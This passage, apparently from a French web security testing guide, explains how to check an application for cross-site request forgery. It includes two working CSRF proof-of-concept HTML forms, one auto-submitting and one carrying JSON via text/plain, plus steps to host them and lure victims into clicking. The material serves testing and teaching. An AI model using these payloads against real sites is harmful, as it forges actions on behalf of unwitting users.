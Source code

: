 Auditez l'application pour déterminer si sa gestion de session est vulnérable. Si la gestion de session repose uniquement sur des valeurs côté client (informations disponibles pour le navigateur), alors l'application est vulnérable. Les "valeurs côté client" font référence aux cookies et aux identifiants d'authentification HTTP (authentification de base et autres formes d'authentification HTTP ; pas l'authentification basée sur un formulaire, qui est une authentification au niveau de l'application).

Les ressources accessibles via les requêtes HTTP GET sont facilement vulnérables, bien que les requêtes POST puissent être automatisées via JavaScript et soient également vulnérables ; par conséquent, l'utilisation de POST seul n'est pas suffisante pour corriger l'occurrence des vulnérabilités CSRF.

En cas de POST, l'exemple suivant peut être utilisé.

1. Créez une page HTML similaire à celle illustrée ci-dessous
2. Héberger le HTML sur un site malveillant ou tiers
3. Envoyez le lien de la page à la ou aux victimes et incitez-les à cliquer dessus.

```html
<html>
<body onload='document.CSRF.submit()'>

<form action='http://targetWebsite/Authenticate.jsp' method='POST' name='CSRF'>
    <input type='hidden' name='name' value='Hacked'>
    <input type='hidden' name='password' value='Hacked'>
</form>

</body>
</html>
```

Dans le cas d'applications Web dans lesquelles les développeurs utilisent JSON pour la communication entre le navigateur et le serveur, un problème peut survenir avec le fait qu'il n'y a pas de paramètres de requête avec le format JSON, qui sont indispensables avec les formulaires à soumission automatique. Pour contourner ce cas, nous pouvons utiliser un formulaire d'auto-soumission avec des charges utiles JSON comprenant une entrée masquée pour exploiter CSRF. Nous devrons changer le type d'encodage (`enctype`) en `text/plain` pour nous assurer que la charge utile est livrée telle quelle. Le code d'exploitation ressemblera à ceci :

```html
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```

La requête POST sera la suivante :

```http
POST / HTTP/1.1
Host: victimsite.com
Content-Type: text/plain

{"name":"hacked","password":"hacked","padding":"=something"}
```
